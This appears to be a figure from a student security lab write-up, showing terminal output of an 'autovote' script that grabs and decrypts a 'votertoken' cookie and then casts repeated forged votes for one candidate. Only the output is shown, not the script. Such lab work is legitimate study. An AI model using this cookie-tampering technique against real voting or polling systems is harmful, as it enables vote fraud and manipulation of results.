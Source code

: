 ```



----------------------------Launching Cookie Monster----------------------------
Got cookie votertoken,FT4OHKF++tHdIlHY1RTNjTMp5hRhPp1qe7sgDR0%3D

Decrypted value: Name=votertoken, value=1
Entering endless loop, press ctrl+C to exit.
Voted for gus with sequence number 2
Voted for gus with sequence number 3
Voted for gus with sequence number 4
Voted for gus with sequence number 5
Voted for gus with sequence number 6
Voted for gus with sequence number 7
Voted for gus with sequence number 8
Voted for gus with sequence number 9
^C

Thank you for choosing us to subvert your election <3
student@client:~/hack$
```
*Figure 3: Output of the autovote python script*
